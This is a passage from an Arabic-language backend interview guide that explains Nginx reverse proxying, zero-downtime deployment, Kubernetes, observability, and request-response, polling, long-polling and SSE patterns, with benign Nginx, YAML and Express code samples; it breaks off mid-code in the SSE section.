في بيئة الإنتاج لمنصة التجارة الإلكترونية، ممنوع كلياً تعريض سيرفر Node.js (Express/NestJS) مباشرة للإنترنت العام! سيرفر Node.js اتصمم ليكون API Application Server ممتاز، لكنه ليس مصمماً لإدارة اتصالات الشبكة الخام بكفاءة، أو التصدّي لهجمات الـ Slowloris، أو تشفير شهادات الـ SSL/TLS، أو تقديم الملفات الاستاتيكية الصامتة.

الحل هو وضع **Nginx** أمام سيرفرات الباك اند ليعمل كـ **Reverse Proxy** و **Layer 7 Load Balancer**.
الـ Reverse Proxy بيقف في المواجهة يستقبل كل طلبات الـ HTTP/HTTPS القادمة من المتصفحات، ينفذ فحص الأمان وفك تشفير الـ SSL/TLS (SSL Termination)، يوزع الحمل على سيرفرات Node.js الداخلية الخفية، ويدير الاتصالات بكفاءة فائقة جداً.

```mermaid
flowchart TD
    Internet[Public Internet Clients] -->|HTTPS Port 443| Nginx[Nginx Reverse Proxy & Load Balancer]
    
    subgraph Internal Isolated Network
        Nginx -->|SSL Termination & Static Files| Static[Static Assets / Public Images]
        Nginx -->|Round Robin HTTP Port 3000| Node1[Node.js API Instance 1]
        Nginx -->|Round Robin HTTP Port 3000| Node2[Node.js API Instance 2]
        Nginx -->|Round Robin HTTP Port 3000| Node3[Node.js API Instance 3]
    end
```

```nginx
# Sample Production Nginx Configuration
upstream ecommerce_backend {
    least_conn; # Send request to instance with least active connections
    server 127.0.0.1:3001 max_fails=3 fail_timeout=30s;
    server 127.0.0.1:3002 max_fails=3 fail_timeout=30s;
    server 127.0.0.1:3003 max_fails=3 fail_timeout=30s;
}

server {
    listen 443 ssl http2;
    server_name store.com;

    ssl_certificate /etc/letsencrypt/live/store.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/store.com/privkey.pem;

    # Gzip Compression for fast responses
    gzip on;
    gzip_types application/json text/plain;

    # Serve static assets directly from Nginx (Frees Node.js!)
    location /static/ {
        alias /var/www/store/static/;
        expires 30d;
    }

    # Reverse proxy API requests to Node.js backend
    location /api/ {
        proxy_pass http://ecommerce_backend;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

#### مثال 1: التطبيق العملي — تخفيف العبء عن Node.js بتسليم الصور والـ Compression في Nginx

في متجر المنتجات، تقديم صور المنتجات وحزم الـ JS من Nginx مباشرة بيوفر 60% من جهد سيرفر Node.js. Nginx مكتوب بـ C، ويستطيع تسليم الملفات الاستاتيكية وضغط الـ JSON بـ Gzip/Brotli بكفاءة تزيد 10 أضعاف عن Node.js.

#### مثال 2: فخ شائع — فقدان الـ IP الحقيقي للزبون (Missing X-Forwarded-For)

لما يحصل هجوم أو محاولة دخول خبيثة، لو Nginx مش متظبط يمرر الـ Header `X-Forwarded-For` أو `X-Real-IP` لسيرفر Node.js... فـ Node.js هيشوف كل الطلبات جاية من IP واحد فقط وهو `127.0.0.1` (IP بتاع Nginx نفسه)! وده هيخرب سياسات الـ Rate Limiting وأمان تسجيل الـ Audit Logs.

#### مثال 3: حالة إنتاجية — حماية السيرفرات بـ Rate Limiting وConnection Shielding في Nginx

في هجمات الـ Traffic Spikes، Nginx يستطيع حظر الطلبات الزائدة بـ `limit_req_zone` قبل أن تصل لسيرفرات Node.js أصلاً. ده بيحافظ على استقرار الـ Node.js Event Loop ويحميه من الانهيار تحت ضغط الـ Distributed Requests.

---

## Q65 — إزاي تضمن Zero-Downtime Deployment بدون ما المستخدم يحس بأي انقطاع؟

### أصل الحكاية

في الأنظمة القديمة، لما كان الفريق يعوز ينزل تحديث جديد في الباك اند، كانوا يوقفوا السيرفرات وتظهر للزبائن صفحة "الموقع تحت الصيانة يرجى العودة لاحقاً". في منصات التجارة الإلكترونية حديثاً، إيقاف المتجر لمدة 10 دقائق في الذروة يعنى خسارة آلاف المعاملات وإحباط الزبائن.

الهدف الإنتاجي هو تحقيق **Zero-Downtime Deployment (النشر بدون أي انقطاع للخدمة)**. قدامك استراتيجيتين رئيسيتين:
1. **Rolling Update**: تحديث السيرفرات سيرفر بعد سيرفر تدريجياً. Nginx يوجه الطلبات للسيرفرات الشغالة، ولما السيرفر الجديد يكتمل ويكون Healthy، Nginx يوجه له حركة المرور، وينتقل لتحديث السيرفر التالي.
2. **Blue-Green Deployment**: تجهيز بيئتين كاملتين متطابقتين (Blue هي الحالية، Green هي التحديث الجديد). الكود الجديد ينزل على Green ويختبر 100%. لما يجهز، الـ Load Balancer يقلب الاتجاه فوراً في 1 millisecond لـ Green!

```mermaid
flowchart TD
    subgraph Rolling Update Strategy
        LB[Load Balancer]
        LB --> S1[Server 1: Updated v2.0 - Healthy]
        LB --> S2[Server 2: Updating... Temporarily Drained]
        LB --> S3[Server 3: Old v1.0 - Active]
    end
```

```javascript
// Elegant Graceful Shutdown handling in Node.js
const server = app.listen(3000, () => console.log('Server running on 3000'));

process.on('SIGTERM', () => {
  console.log('SIGTERM signal received: Closing HTTP server gracefully...');
  
  // Stop accepting NEW incoming HTTP connections
  server.close(() => {
    console.log('HTTP server closed. Closing database pools...');
    // Close DB pool connections safely after pending queries finish
    pool.end(() => {
      console.log('Database connections closed. Exiting process safely.');
      process.exit(0);
    });
  });

  // Force shutdown after 10 seconds if connections hang
  setTimeout(() => {
    console.error('Forced shutdown due to timeout');
    process.exit(1);
  }, 10000);
});
```

#### مثال 1: التطبيق العملي — تطبيق الـ Graceful Shutdown في Node.js

عند تنفيذ Rolling Update، نظام Docker/Kubernetes يبعت إشارة `SIGTERM` للحاوية القديمة قبل إغلاقها. الـ **Graceful Shutdown** بيجعل السيرفر يرفض الاتصالات الجديدة ولكنه **ينتظر حتى تكتمل جميع طلبات الشراء الحالية المفتوحة** (Pending Requests) خلال 10 ثواني، ثم يغلق اتصالات قاعدة البيانات ويخرج بسلام بدون قطع طلب أي زبون.

#### مثال 2: فخ شائع — الـ Breaking Database Schema Changes يفسد الـ Zero-Downtime

أكثـر فخ مدمر للـ Zero-Downtime هو لما التحديث الجديد يحتاج حذف أو تغيير اسم عامود في قاعدة البيانات (`ALTER TABLE users RENAME COLUMN name TO full_name`). أثناء عملية الـ Rolling Update، السيرفرات القديمة (v1.0) لسه شغالة وتطلب العامود القديم `name` فتقوم تفشل استعلاماتها وتجيب `500 Server Error`! الحل هو اتباع **Expand and Contract Pattern** للـ DB Migrations على مرحلتين منفصلتين.

#### مثال 3: حالة إنتاجية — استراتيجية الـ Canary Deployments لاختبار التحديث بـ 5% من الزبائن

في الشركات الكبيرة، بنستخدم **Canary Deployment**: النشر الجديد ينزل على سيرفر واحد فقط ويستقبل 5% من زبائن المتجر. بنراقب الـ Error Rate وحمولة الـ CPU لمدة ساعة. لو الأمور 100% بنكمل النشر على الـ 95% الباقين. لو فيه مشكلة بنلغي الـ 5% بدون ما يلاحظ بقية زبائن المنصة.

---

## Q66 — إيه هو Kubernetes بالتبسيط، وإمتى تحتاجه فعلاً؟

### أصل الحكاية

لما تكون المنصة صغيرة، تشغيل 2 Docker Containers ورا Nginx بواسطة `docker-compose` على سيرفر VPS واحد كافي جداً. لكن لما المنصة تكبر وتتحول لـ 30 Microservice مع مئات الـ Containers الموزعة على عشرات السيرفرات السحابية... الإدارة اليدوية دي هتتحول لكابوس! مين هيراقب لو حاوية وقعت ويعيد تشغيلها؟ مين هيعمل Auto-scaling للحاويات لما الزحمة تزيد؟ ومين هيوزع الـ Network Traffic والـ Storage بين السيرفرات؟

هنا بييجي دور **Kubernetes (K8s)**: هو نظام إدارة وتنظيم الحاويات المعيارية العالمي (**Container Orchestration Engine**). فكّر في Kubernetes كـ "المايسترو" الأوتوماتيكي اللي بيدير أوركسترا من آلاف الـ Containers على أسطول من السيرفرات (Cluster):
- **Self-Healing**: لو حاوية اتخنقت أو وقعت، K8s بيقتلها وينشئ واحدة جديدة فوراً في أقل من ثانية!
- **Auto-Scaling**: بيزود ويقلل عدد الـ Pods تلقائياً بناءً على حمولة الـ CPU والذاكرة.
- **Service Discovery & Load Balancing**: بينظم شبكة الاتصال الداخلية بين كل الخدمات مع توزيع الحمل.

```mermaid
flowchart TD
    subgraph Kubernetes Cluster Architecture
        ControlPlane[K8s Control Plane / API Server Master]
        
        subgraph Worker Node 1
            Pod1[Pod: Store API v2]
            Pod2[Pod: Store API v2]
        end
        
        subgraph Worker Node 2
            Pod3[Pod: Payment Service]
            Pod4[Pod: Redis Cache]
        end

        ControlPlane -->|Monitors & Auto-Heals| Worker Node 1
        ControlPlane -->|Monitors & Auto-Heals| Worker Node 2
    end
```

```yaml
# Simple Kubernetes Deployment Manifest (deployment.yaml)
apiVersion: apps/v1
kind: Deployment
metadata:
  name: store-api-deployment
spec:
  replicas: 3 # Always maintain 3 healthy running Pods!
  selector:
    matchLabels:
      app: store-api
  template:
    metadata:
      labels:
        app: store-api
    spec:
      containers:
      - name: store-api
        image: registry.store.com/store-api:v2.0
        ports:
        - containerPort: 3000
        resources:
          limits:
            cpu: "500m"
            memory: "512Mi"
        livenessProbe:
          httpGet:
            path: /health
            port: 3000
          initialDelaySeconds: 15
          periodSeconds: 10
```

#### مثال 1: التطبيق العملي — خاصية الـ Self-Healing واستعادة الخدمات التالفة

في المتجر، لو حصل Memory Leak في حاوية الـ API وتوقف السيرفر عن الرد، الـ `livenessProbe` في Kubernetes هيكتشف إن صفحة `/health` مش بترد، فيقوم K8s بقتل الحاوية التالفة فوراً وإنشاء Pod جديدة خفيفة ونظيفة مكانها بدون أدنى تدخل من مهندسي الدعم الفني.

#### مثال 2: فخ شائع — تعقيد Kubernetes المبكر لمشروع بسيط (Premature Complexity)

من أكبر الأخطاء المعمارية اختيار Kubernetes لمشروع متجر صغير أو ناشئ! تعقيد K8s وتكلفته التشغيلية والتعليمية ضخمة جداً، ويتطلب مهندسي DevOps متخصصين. لو مشروعك محتاج 2 إلى 5 السيرفرات فقط، فالاعتماد على خدمات مدارة بسيطة مثل AWS ECS أو Render أو Serverless PaaS هو القرار الأذكى وتوفيراً للوقت والمال.

#### مثال 3: حالة إنتاجية — الـ Horizontal Pod Autoscaler (HPA) في المواسم

في بيئات الإنتاج الكبيرة، بنفعل **Horizontal Pod Autoscaler (HPA)**. لما يجي موسم التخفيضات وتزيد الاستعلامات، HPA بيقرأ استهلاك الـ CPU من الـ Metrics Server، ويقوم أوتوماتيكياً بتكثير عدد الـ Pods من 3 لـ 50 Pod خلال دقيقة، ويرجع يقللهم لما الزحمة تنتهي لتوفير التكاليف السحابية.

---

## Q67 — إيه الفرق بين Monitoring وObservability (Logs, Metrics, Traces)؟

### أصل الحكاية

لما الباك اند يشتغل في بيئة الإنتاج، السؤال اللي بيشغل بال فريق الهندسة: "هل التطبيق شغال كويس في اللحظة دي ولا فيه مشاكل مستخفية؟"

- **Monitoring (الرصد والقياس)**: بيجيب عن سؤال **"هل النظام شغال ولا متصل؟"**. هو متابعة للمؤشرات المعروفة مسبقاً (زي: هل الـ CPU عالي؟ هل الـ Memory 90%؟ كم عدد الـ 500 Errors؟). لو المؤشر تخطى حد معين، بيتبعت Alert للمهندسين.
- **Observability (الفيزيائية والشفافية الداخلية)**: هي القدرة على الإجابة عن سؤال **"ليه النظام بيتصرف بالشكل الغريب ده؟"** باستكشاف الأسباب الجذرية للأخطاء غير المتوقعة (Unknown Unknowns) من خلال فحص مخرجات النظام الداخلية.

الـ Observability بتعتمد على **الأعمدة الثلاثة الرئيسية (The Three Pillars of Observability)**:
1. **Metrics (المقاييس)**: أرقام مجمعة إحصائية بمرور الوقت (مثل: عدد الطلبات/ثانية، زمن الاستجابة P99 latency). (أدوات: Prometheus & Grafana).
2. **Logs (السجلات)**: نص تفصيلي لأحداث ومجريات الكود مع Timestamp (مثل: "فشل الاتصال بـ Stripe للزبون #42"). (أدوات: ELK Stack / Grafana Loki).
3. **Traces (التتبع الموزع)**: تتبع مسار الطلب الواحد وهو بيتنقل بين مئات الـ Microservices والمستودعات لحساب الزمن المستغرق في كل محطة. (أدوات: Jaeger & OpenTelemetry).

```mermaid
flowchart TD
    subgraph The Three Pillars of Observability
        M[1. Metrics: Quantitative Aggregates e.g. Request Rate, CPU%] --> G[Grafana Dashboard]
        L[2. Logs: Event Text Context e.g. Error Stack Traces] --> Loki[Loki / Elasticsearch]
        T[3. Traces: Distributed Request Flow Path Across Services] --> Jaeger[Jaeger / OpenTelemetry]
    end
```

```javascript
// Structured JSON Logging & Distributed Tracing with Winston & OpenTelemetry
const winston = require('winston');

const logger = winston.createLogger({
  level: 'info',
  format: winston.format.json(), // Structured JSON logging mandatory for Production!
  defaultMeta: { service: 'order-service' },
  transports: [new winston.transports.Console()]
});

// Inside Order Controller:
app.post('/api/v1/orders', (req, res) => {
  const traceId = req.headers['x-trace-id'] || generateTraceId();
  
  logger.info('Processing new order', {
    traceId,
    customerId: req.user.id,
    amount: req.body.totalAmount
  });
  // Execute order logic...
});
```

#### مثال 1: التطبيق العملي — الـ Structured JSON Logs وسهولة البحث في Kibana

في بيئة Production، ممنوع كتابة `console.log("error happened")` بكلمات عادية! بنستخدم **Structured JSON Logging**. الـ Log ينزل كـ JSON محتوياً على `traceId`, `userId`, `timestamp`, `level`. ده بيمكّن مهندسي الدعم من تجميع وتصفية ملايين الـ Logs في Kibana/Loki في ثواني بطلب `service:order-service AND status:500`.

#### مثال 2: فخ شائع — الغرق في الـ Alerts العشوائية (Alert Fatigue)

من أكبر أخطاء الـ Monitoring إرسال إشعارات وAlerts على Slack لكل مشكلة صغيرة غير مؤثرة! المطورين بيجيلهم حالة **Alert Fatigue (تشتت التنبيهات)** ويتعودوا يطنشوا الرسائل، ولما تحصل كارثة حقيقية ما حدش بياخد باله! الحل هو ضبط الـ Alerts صراحة على الأهداف الملموسة **SLOs/SLAs** (مثل: أرسل Alert فقط لو نسبة الـ 500 Errors تختط 2% خلال 5 دقائق).

#### مثال 3: حالة إنتاجية — كشف الـ Bottleneck المسبب لبطء الـ Checkout بـ Distributed Tracing

في نظام Microservices، طلب الدفع بيمر على API Gateway ثم Order Service ثم Risk Check ثم Payment Service. لو طلب الدفع بقى بيستغرق 6 ثواني، الـ Logs العادية مش هتوضح المشكلة فين! باستخدام **Distributed Tracing (OpenTelemetry)**، المهندس بيفتح الـ Trace Map ويشوف شريط زمني واضح: Risk Check أخذت 5.8 ثانية بسبب استعلام بطيء في قاعدة بياناتها، وده يوجه الفحص للمكان الصح فوراً.

---

> [!tip] Checkpoint نهائي للموضوع (DevOps وInfrastructure)
> **مراجعة محورية للـ DevOps والبنية التحتية:**
> 1. **Docker Containerization (Q61)**: غلف الكود والـ Runtime والبيئة في Docker Image معزولة لضمان التوافق المطلق من Dev إلى Prod.
> 2. **CI/CD Pipelines (Q62)**: اتمت الفحوصات والاختبارات والنشر تلقائياً لمنع الأخطاء البشرية وتسريع دورة التسليم.
> 3. **Secrets Management (Q63)**: اعزل الأسرار والـ Keys في البيئة الخارجية واستخدم Cloud Secret Managers وحذر من كتابتها في الكود أو Git.
> 4. **Nginx Reverse Proxy (Q64)**: حط Nginx قدام سيرفرات Node.js لإدارة الـ SSL والـ Caching والـ Load Balancing وحماية السيرفرات.
> 5. **Zero-Downtime & K8s (Q65 & Q66)**: طبق Rolling Updates مع Graceful Shutdown لمنع انقطاع الخدمات، واستعن بـ Kubernetes لإدارة الحاويات الضخمة تلقائياً.
> 6. **Observability (Q67)**: ابنِ شفافية النظام على الأعمدة الثلاثة (Metrics, Structured Logs, Distributed Traces) لكشف الأخطاء وتحليل الأداء.

---

## Q68 — إيه هو الـ Request-Response Pattern، ولإيه هو الأساس اللي كل حاجة تانية بتتقاس عليه؟

### أصل الحكاية

نمط **Request-Response Pattern** هو النموذج الأبوي والأكثر شيوعاً واستخداماً في عالم تصميم الشبكات والـ Web APIs. الفكرة بسيطة جداً ومبنية على مبدأ **Client-Initiated Communication**:
العميل (Client زي المتصفح أو تطبيق الموبايل) هو دايماً الطرف اللي بيبدأ الكلام. العميل يرسل **Request** عبر الاتصال، يظل ينتظر معلّقاً، والسيرفر يستقبل الطلب، يعالجه، ويرد بـ **Response** واحد وينهي المعاملة.

كل بروتوكولات الـ Web الحديثة زي HTTP/1.1 وHTTP/2 وREST APIs مبنية صراحة فوق النمط ده. السؤال في الإنترفيو: إيه هي الحدود المعمارية للنمط ده، وإمتى بيتحول لـ Limitation محتاجة أنماط تانية؟
الحد الرئيسي: **السيرفر لا يستطيع البدء بالكلام من نفسه (Server cannot push data)!** السيرفر دايماً مفعول به (Passive). لو حصل حدث جديد في النظام (مثل تغيير حالة الشحنة لتصل لبيت الزبون)، السيرفر ميعرفش يبعت للعميل "إشعار" إلا لو العميل بعت يطلبه بنفسه أولاً.

```mermaid
sequenceDiagram
    participant C as Client (Customer Browser)
    participant S as Web Server (Node.js)

    Note over C,S: Request-Response Pattern (Synchronous / Client-Driven)
    C->>S: 1. HTTP Request (GET /api/v1/orders/42)
    Note over S: Server processes request & queries DB
    S-->>C: 2. HTTP Response (200 OK + JSON Payload)
    Note over C,S: Connection is finished / Idle
```

```javascript
// Classic Request-Response Handler in Express
app.get('/api/v1/products/:id', async (req, res) => {
  // Client initiated the call. Server responds ONCE and finishes.
  const product = await db.products.findById(req.params.id);
  if (!product) {
    return res.status(404).json({ error: 'المنتج غير موجود' });
  }
  return res.json({ status: 'success', data: product });
});
```

#### مثال 1: التطبيق العملي — تصفح المنتجات وإجراء عمليات الـ CRUD العادية

في منصة المتجر الإلكتروني، 90% من التعاملات هي Request-Response مثالي: الزبون بيضغط "عرض سلة الشراء"، الفرونت اند يرسل `GET /api/v1/cart` والسيرفر يرجع بيانات السلة بـ JSON في 50ms وتنتهي المعاملة.

#### مثال 2: فخ شائع — محاولة استخدام Request-Response في تطبيقات التتبع اللحظي

من الفخاخ المعمارية محاولة استخدام Request-Response العادي في شاشة تتبع سائق الشحن على الخريطة لايف! لو العميل فضل يعمل Refresh كل ثانية للـ HTTP Request، السيرفر والشبكة هيتخنقوا بـ Overhead هائل من فتح وإغلاق اتصالات الـ HTTP. الأنظمة اللحظية محتاجة بروتوكولات متخصصة زي WebSockets (Q73) أو SSE (Q72).

#### مثال 3: حالة إنتاجية — ضبط الـ Keep-Alive وتقليل الـ Overhead في Request-Response

لتحسين أداء نمط Request-Response في HTTP/1.1، بنفعل خاصية **HTTP Keep-Alive**. الخاصية دي بتسمح للمتصفح بإعادة استخدام نفس اتصال الـ TCP المفتوح مسبقاً لإرسال عشرات طلبات الـ HTTP المتتالية بدون الحاجة لإعادة عمل TCP & TLS Handshakes في كل طلب.

---

## Q69 — إيه الفرق بين Synchronous وAsynchronous Workloads؟

### أصل الحكاية

في تصميم الباك اند لمنصة التجارة الإلكترونية، المعالجات والمهام المطلوبة من السيرفر بتنقسم لنوعين معزولين تماماً من حيث طريقة التنفيذ وتجربة المستخدم (User Experience):

- **Synchronous Workload (المعالجة المباشرة المتزامنة)**: العميل يبعت الطلب، ويفضل واقف ومستني في نفس الميكروثانية لحد ما السيرفر يخلص المعالجة بالكامل ويرجع الرد النهائي. (تنفيذ خطوة بخطوة، والخطوة التالية لا تبدأ إلا بعد اكتمال الحالية).
- **Asynchronous Workload (المعالجة غير المتزامنة المؤجلة)**: العميل يبعت الطلب، السيرفر يتأكد من صحة البيانات الأساسية، ويرجع رد فوري للعميل بـ `202 Accepted` بـ "استلمت طلبك وجاري المعالجة". المعالجة الفعلية بتتم في الخلفية بشكل مستقل دون إجبار العميل على الانتظار.

```mermaid
flowchart TD
    subgraph 1. Synchronous Flow (Client Waits)
        C1[Client Request] -->|Waits...| S1[Server processes DB + Stripe + Email]
        S1 -->|Response after 5 seconds| C1
    end

    subgraph 2. Asynchronous Flow (Decoupled & Fast)
        C2[Client Request] --> S2[Server pushes Job to Queue]
        S2 -- Immediate Response < 50ms --> C2
        S2 -. Background Job .-> W[Worker processes Heavy Tasks]
    end
```

```javascript
// 1. Synchronous Endpoint: Must return immediate calculation
app.post('/api/v1/cart/apply-coupon', async (req, res) => {
  const { couponCode, cartTotal } = req.body;
  const discount = await calculateCouponDiscount(couponCode, cartTotal);
  // User MUST know the result right NOW to see final price!
  return res.json({ valid: true, discountAmount: discount });
});

// 2. Asynchronous Endpoint: Heavy background task
app.post('/api/v1/admin/export-sales-report', async (req, res) => {
  // Task takes 3 minutes to aggregate millions of rows into Excel!
  await reportQueue.add('generateExcel', { merchantId: req.user.merchantId });
  // Return immediate 202 status!
  return res.status(202).json({
    message: 'جاري إعداد التقرير، سيرسل رابط التحميل لإيميلك فور الجاهزية',
    status: 'queued'
  });
});
```

#### مثال 1: التطبيق العملي — تفنيد العمليات في شاشة إتمام الشراء (Checkout Flow)

في متجر التجارة الإلكترونية، لما الزبون يضغط "تأكيد الشراء":
- **عملية Synchronous**: الخصم من الكارت البنكي وحجز قطع المخزون (لازم تتم فوراً والزبون واقف للتأكد من نجاح العملية).
- **عملية Asynchronous**: إرسال البريد الإلكتروني بالفاتورة، إشعار مستودع الشحن، وحساب نقاط الولاء (بتترحل لـ Message Queue وتتم في الخلفية).

#### مثال 2: فخ شائع — جعل المعالجات الثقيلة Synchronous مما يسبب Timeouts

من الأخطاء الكارثية جعل عملية تصدير تقرير المبيعات السنوي (Excel Export) عملية Synchronous داخل الـ HTTP Request! لو التقرير أخذ 40 ثانية للتحضير، الـ Load Balancer أو المتصفح يقطع الاتصال بـ `504 Gateway Timeout` والزبون يظن أن السيرفر انهار.

#### مثال 3: حالة إنتاجية — تصميم نظام إشعار الاكتمال في الـ Asynchronous APIs

لما تصمم Asynchronous API بردد `202 Accepted` وتوليد `jobId` في الخلفية، العميل قدامه طريقتين لمتابعة الجاهزية: إما عمل **Polling** دوري كل 5 ثواني على `GET /api/v1/jobs/:jobId/status` لمعرفة هل الشغلانة كملت ولا لأ، أو استخدام **WebSockets/SSE** ليقوم السيرفر بدفع إشعار لحظي فور انتهاء الـ Worker من المهمة.

---

## Q70 — إيه هو الـ Polling، وإيه مشاكله الحقيقية في الإنتاج؟

### أصل الحكاية

تخيل سيناريو في منصة التجارة الإلكترونية: الزبون فتح شاشة "متابعة حالة الطلب" وعايز يعرف أول ما السائق يستلم الطلب ويتحرك. زي ما عرفنا في Q68، بروتوكول HTTP مبني على Request-Response (السيرفر مش بيقدر يكلم المتصفح من نفسه).

أبسط وأول حل اختُدع للمشكلة دي هو **Short Polling**:
الفرونت اند (JavaScript في متصفح الزبون) يظبط تايمر `setInterval` يرسل HTTP Request للسيرفر كل 3 ثواني ليطلب التحديث: "هل فيه جديد؟ هل فيه جديد؟ هل فيه جديد؟".
السيرفر يستقبل الطلب، يقرأ من قاعدة البيانات، ولو مفيش جديد يرجع `202 No Update` قاطعا الاتصال، ليعود المتصفح ويبعت طلب جديد بعد 3 ثواني!

```mermaid
sequenceDiagram
    participant C as Client (Customer Browser)
    participant S as API Server Node.js

    Note over C,S: Short Polling (HTTP Request every 3s)
    C->>S: GET /api/v1/orders/42/status (t = 0s)
    S-->>C: 200 OK { status: 'PREPARING' }
    
    C->>S: GET /api/v1/orders/42/status (t = 3s)
    S-->>C: 200 OK { status: 'PREPARING' } (No change - Wasted Request!)
    
    C->>S: GET /api/v1/orders/42/status (t = 6s)
    S-->>C: 200 OK { status: 'PREPARING' } (No change - Wasted Request!)

    C->>S: GET /api/v1/orders/42/status (t = 9s)
    S-->>C: 200 OK { status: 'SHIPPED' } (Status Changed!)
```

```javascript
// Short Polling Implementation on Client-Side (React/JS)
useEffect(() => {
  const intervalId = setInterval(async () => {
    const res = await fetch('/api/v1/orders/42/status');
    const data = await res.json();
    setOrderStatus(data.status);
    
    if (data.status === 'DELIVERED') {
      clearInterval(intervalId); // Stop polling when finished
    }
  }, 3000); // Polls every 3 seconds

  return () => clearInterval(intervalId);
}, []);
```

#### مثال 1: التطبيق العملي — متى يكون Short Polling مقبولاً عملياً؟

يكون Short Polling خياراً مقبولة وسهلاً فقط في الحالات غير الحساسة للزمن والحجم، مثل: لوحة تحكم التاجر التي تبحث عن تحديث الإحصائيات كل 5 دقائق (300 ثانية)، أو متابعة عملية تحويل ملف بطيئة لا تتطلب تواصل لحظي.

#### مثال 2: فخ شائع — الكارثة الإنتاجية لـ Short Polling مع زيادة المستخدمين (Network & CPU Overhead)

تخيل لو عندك 10,000 زبون فاتحين شاشة المتجر وكلهم عاملون Short Polling كل ثانية! ده معناه إن سيرفر الباك اند بيستقبل **10,000 HTTP Requests كل ثانية**، 99% منها بترجع نفس الرد بـ "مفيش جديد"! فتح وإغلاق اتصالات الـ TCP وTLS وإجراء استعلامات الـ DB الباطلة يستنزف 90% من الـ CPU والـ Bandwidth في لا شيء، وقد يسبب انهيار السيرفر تحت الـ Self-Inflicted Traffic.

#### مثال 3: حالة إنتاجية — الانتقال لـ Long Polling أو WebSockets في التطبيقات الحقيقية

في التطبيقات المتقدمة، استبدال Short Polling بـ **Long Polling (Q71)** أو **WebSockets (Q73)** بيخفض عدد طلبات الشبكة وحمولة السيرفر بنسبة تزيد عن 95%! وبدلاً من إرهاق قاعدة البيانات بشرائح Polling متكررة، السيرفر بيعتمد على **Redis Pub/Sub (Q75)** لإعلام العميل فور وقوع الحدث الحقيقي فقط.

---

## Q71 — إيه هو الـ Long Polling، وإزاي بيحسّن على Polling العادي؟

### أصل الحكاية

في Q70 شفنا مشاكل الـ Short Polling الضخمة في الإنتاج. الحل الذي ابتدع لتحسين الاتصال بدون الخروج عن نطاق بروتوكول HTTP العادي هو **Long Polling (الاستطلاع الطويل)**:
الفرونت اند يرسل HTTP Request عادي جداً للسيرفر. السيرفر يستقبل الطلب، ولكن بدلاً من الرد الفوري بـ "مفيش جديد"، السيرفر **يمسك الاتصال ويخليه مفتوحاً (Hanging Connection)** ويرفض إغلاقه لحد ما يحصل حدث جديد بالفعل أو تنتهي فترة التايمات (مثلاً 30 ثانية). أول ما يحصل تغيير في البيانات (مثل تغيير حالة الشحنة)، السيرفر يكتب الـ Response فوراً ويغلق الاتصال! العميل يستقبل الرد ويفعل الطلب التالي مباشرة ليفتح اتصالا معلقاً جديداً.

```mermaid
sequenceDiagram
    participant C as Client App
    participant S as API Server Node.js

    Note over C,S: Long Polling Flow (Connection Held Open)
    C->>S: GET /api/v1/orders/42/status (t = 0s)
    Note over S: Server holds request open... (No immediate response!)
    Note over S: Event occurs at t = 12s (Status changed to SHIPPED)
    S-->>C: 200 OK { status: 'SHIPPED' } (t = 12s)
    C->>S: Immediately re-open GET /api/v1/orders/42/status for next update
```

```javascript
// Long Polling Server Handler in Express with Redis Pub/Sub
app.get('/api/v1/orders/:id/status-longpoll', async (req, res) => {
  const { id } = req.params;
  const subscriber = redis.duplicate();
  await subscriber.connect();

  // Set timeout to prevent client hanging forever (30 seconds)
  const timeoutId = setTimeout(() => {
    subscriber.unsubscribe(`order:${id}`);
    res.json({ status: 'timeout', message: 'No change' });
  }, 30000);

  // Wait for Redis Pub/Sub event when order updates
  await subscriber.subscribe(`order:${id}`, (message) => {
    clearTimeout(timeoutId);
    subscriber.unsubscribe(`order:${id}`);
    res.json({ status: 'updated', data: JSON.parse(message) });
  });
});
```

#### مثال 1: التطبيق العملي — نظام الإشعارات اللحظية في متصفحات قديمة

في منصات التجارة الإلكترونية التي تدعم بيئات لا تدعم WebSockets، بنستخدم Long Polling لإشعار الزبون فور وصول الخصم، السيرفر يمسك الطلب 30 ثانية ويرد فور ظهور الكوبون.

#### مثال 2: فخ شائع — الـ Timeout القصير في الـ Load Balancer / Nginx

من أشهر الأخطاء عند تطبيق Long Polling هو نسيان رفع قيم `proxy_read_timeout` في Nginx! لو Nginx متظبط على 10 ثواني والسيرفر ماسك الـ Long Polling Request لـ 30 ثانية، Nginx يقطع الاتصال بـ `504 Gateway Timeout` ويظهر خطأ في شبكة العميل.

#### مثال 3: حالة إنتاجية — استهلاك الـ File Descriptors تحت آلاف الاتصالات المفتوحة

في Long Polling، لأن السيرفر يمسك ملايين اتصالات HTTP المفتوحة، نظام التشغيل Linux يستهلك **Sockets وFile Descriptors**. ضبط حدود `ulimit -n` إلى 65,535 حتمي لمنع خطأ `EMFILE: too many open files`.

---

## Q72 — إيه هو الـ Server-Sent Events (SSE)، وإزاي بيختلف عن Long Polling؟

### أصل الحكاية

في Long Polling (Q71)، مع كل حدث جديد الاتصال بيتقفل والعميل بيحتاج يفتح HTTP Request جديد من الصفر (بكل تكلفة الـ Headers والـ Handshakes).
لو العميل محتاج يستقبل **مجرى مستمر من التحديثات أحادية الاتجاه من السيرفر** (Server-to-Client Unidirectional Streaming)، الحل المعياري في HTML5 هو **Server-Sent Events (SSE)**.

في SSE، العميل بيفتح اتصال HTTP عادي واحد مع `Header: Accept: text/event-stream`. السيرفر بيبقي الاتصال مفتوحاً للأبد، وبيبعت البيانات على شكل مجرى نصوص (Text Stream) مقسّمة بـ `data: ...\n\n`. المتصفح بيدعم SSE بشكل أصلي بواسطة `EventSource` API وبيعمل Reconnect تلقائياً لو الاتصال اتقطع!

```mermaid
sequenceDiagram
    participant C as Client (Browser EventSource)
    participant S as API Server Node.js

    C->>S: GET /api/v1/products/42/stock-stream (Accept: text/event-stream)
    S-->>C: 200 OK (Keep connection open indefinitely)
    
    Note over S: Event 1: Stock drops to 5
    S-->>C: data: {"stock": 5}\n\n
    
    Note over S: Event 2: Stock drops to 4
    S-->>C: data: {"stock": 4}\n\n
```

```javascript
// Express Server Endpoint using SSE
app.get('/api/v1/products/:id/stock-stream', (req, res) => {
  res.setHeader('Content-Type', 'text/event-stream');
  res.setHeader('Cache-Control', 'no-cache');
  res.setHeader('Connection', 'keep-alive');

  const sendEvent = (data) => {
    res.write(`data: ${JSON.stringify(data)}\n\n`);
  };

